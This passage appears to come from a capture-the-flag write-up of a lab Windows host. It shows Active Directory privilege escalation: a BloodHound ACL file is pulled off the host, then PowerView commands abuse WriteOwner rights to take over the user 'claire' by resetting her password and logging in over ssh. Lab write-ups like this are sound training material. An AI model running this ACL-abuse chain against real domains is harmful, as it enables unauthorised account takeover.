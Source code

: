 ```bash
Privilege Name                Description                    State                                                           
============================= ============================== =======                                                         
SeMachineAccountPrivilege     Add workstations to domain     Enabled                                                         
SeLoadDriverPrivilege         Load and unload device drivers Enabled                                                         
SeShutdownPrivilege           Shut down the system           Enabled                                                         
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled                                                         
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled    
```

There is a file inside an audit folder:

```bash
$ scp tom@10.10.10.77:'/C:/Users/tom/Desktop/AD Audit/BloodHound/Ingestors/acls.csv' .
tom@10.10.10.77's password: 
acls.csv
```

Open the file and search for `tom`:

![](assets/Pasted%20image%2020241124084112.png)

And `tom` has `WriteOwner` permissions over `claire`, so:

The ability to set the object owner is abusable by `Set-DomainObjectOwner`.
The ability to write to the DACL is abusable by `Add-DomainObjectAcl`.
The ability to reset a user’s password is abusable by `Set-DomainUserPassword`.

```bash
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Import-Module .\PowerView.ps1                                                   
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom                       
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword                                 
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $pass = ConvertTo-SecureString 'Sup3rS3cr3t!' -AsPlainText -Force               
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -Identity claire -AccountPassword $pass
```

Now `ssh` with `claire`:

```bash
$ ssh claire@10.10.10.77
Microsoft Windows [Version 6.3.9600]                                                                                         
(c) 2013 Microsoft Corporation. All rights reserved.                                                                         

claire@REEL C:\Users\claire>whoami
claire
```
